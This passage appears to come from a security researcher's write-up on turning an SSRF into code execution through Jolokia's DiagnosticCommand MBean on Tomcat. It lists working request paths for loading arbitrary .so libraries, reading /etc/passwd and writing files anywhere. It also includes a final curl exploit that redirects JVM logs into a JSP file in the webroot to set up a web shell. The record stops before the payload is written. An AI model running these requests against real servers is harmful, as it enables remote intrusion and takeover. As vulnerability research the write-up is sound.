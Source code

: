 - Arbitrary .so loading with jvmtiAgentLoad
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/jvmtiAgentLoad/!/etc!/passwd`
    <img class="img_full" src="/hacking/ssrf_to_rce_with_jolokia_and_mbeans/jolokia-diagnostic-jvmti.png" alt="jolokia-diagnostic-jvmti.png">
    - For real? Load a .so with a simple GET request? Wow..
    - Fun fact, there is no need to have a function called within the library. It is possible for both windows and linux to implement a constructor for the library and get code execution on dlopen this way!

- File write in a "log" file with an arbitrary location and name
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/tmp!/pwned`
    - Here, one must find a way to poison the logs, then disable it to close the file and stop appending garbage to it
    - `/jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/disable`


# Potential ways to compromise

1. Find another MBean that offers a full SSRF and scan internal network for vulnerable services?
    - Maybe, I only managed to find one SSRF in jolokia's proxy system, but it's reachable only by POST requests, so it's a dead-end for us
1. Use the file write to add a crontask? 
    - No, only privileged users can edit crontabs
1. Add an ssh authorized_key to our user and ssh into the box? 
    - No, ssh isn't exposed
1. Write an arbitrary library (.so) on the disk and load it? 
    - No, our file-write primitive has too much junk and would break the ELF parser while loading the lib. This _could_ work with a log-flush with the right timing, but this really seems complexe, and likely to fail. 
    - On windows, an UNC path like `\\my.domain.com\my.dll` might have been possible, but I'm no aware of such behavior on linux. I tried using `http` and `ftp` schemes, but what what expected is a path and not a full uri. *sigh*
1. Write a php file on the php web-root and query it?
    - No, this web-root isn't writable by the tomcat user
1. Write a jsp file on tomcat's ROOT (or any other mapped application within tomcat, such as `manager`, `docs`, etc) directory and query it with our initial SSRF? 
    - Bingo! First try! Or so.. :)


# Walkthrough & Final exploit

```bash
# Define log file
curl -i -k -X PUT 'http://0.0.0.0:8443/api.php?arg1=1&arg2=global/../../../../../jolokia/exec/com.sun.management:type=DiagnosticCommand/vmLog/output=!/opt!/apache-tomcat-9.0.16!/webapps!/ROOT!/jsp.jsp%23'

#HTTP/1.1 200 OK                                                                                                                                                                               
#Host: 0.0.0.0:8443                                                                                                                                                                            
#Date: Sun, 28 Feb 2021 02:11:10 GMT
#Connection: close
#X-Powered-By: PHP/8.1.0-dev
#Content-type: text/html; charset=UTF-8
#
#string(221) "{"request":{"mbean":"com.sun.management:type=DiagnosticCommand","arguments":["output=\/opt\/apache-tomcat-9.0.16\/webapps\/ROOT\/jsp.jsp"],"type":"exec","operation":"vmLog"},"value":"","timestamp":1614478270,"status":200}"

# Wait for log file rotation and write our payload in the logs/jsp
sleep 1
```